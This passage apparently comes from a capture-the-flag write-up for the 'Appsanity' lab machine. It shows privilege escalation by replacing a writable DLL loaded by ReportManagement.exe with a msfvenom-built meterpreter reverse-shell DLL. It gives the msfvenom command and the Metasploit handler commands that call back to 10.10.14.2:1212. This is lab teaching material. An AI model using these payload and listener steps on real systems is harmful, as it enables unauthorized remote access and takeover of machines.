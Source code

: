 And opens a file called "externalupload"
![](Appsanity/externalupload.png)


### .dll RevShell

The externalupload file is a .dll file, and the user devdoc has permission to change the file.
So we create a .dll reverse shell, and when we run the upload function on the ReportManagement.exe application, we can get a shell

First create the .dll revshell
``` bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=1212 -f dll -o externalupload.dll
```

And upload it to the Libraries folder
![](Appsanity/uploadexternalupload.png)

### Admin Shell

Now that the reverse shell is uploaded, we start a meterpreter listener
``` bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.2
set LPORT 1212
set ExitOnSession false
run
```

We run the application that we port forwarded to our local machine and use the upload function
![](Appsanity/uploadfunction.png)
